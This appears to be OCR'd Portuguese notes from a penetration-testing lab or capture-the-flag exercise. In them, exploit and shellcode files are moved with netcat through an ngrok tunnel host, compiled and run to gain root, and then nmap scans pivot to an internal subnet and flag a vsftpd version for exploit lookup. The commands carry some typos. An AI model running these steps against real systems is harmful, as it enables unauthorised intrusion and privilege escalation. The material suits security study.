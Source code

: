 nc -lvp 789 < lib.c
nc -lvp 789 < shellcode.c

nc 0.tcp.sa.ngrok.io 16944 > lib.c
nc 0.tcp.sa.ngrok.io 16944 > shellcode.c

// roda no ngronk novamente

nc -lvp 789 < Makefile
nc -lvp 789 < Makefile

nc 0.tcp.sa.ngrok.io 16944 > Makefile
nc 0.tcp.sa.ngrok.io 16944 > Makefile

// roda o executável

make

// roda o exploit

./exploit

// agora estamos como root

whoiam - mostra o usuário

// agora podemos rodar comandos como root

## Pivoting

### Instalação necessário

export PATH=$PATH:/usr/bin

// comando clear
EXPORT TERM=xterm

apt install nmap

### Usando o nmap

nmap 10.20.20.0/24 -sn

// achados:
10.20.20.156

// agora fazemos as portas abertas

nmap 10.20.20.156

// achados:

porta 21 e 22 - fpt e ssh

// vendo as versões

nmap 10.20.20.156 -sv

// achados:

vsftpd 3.0.3 -> coloca no searchsploit
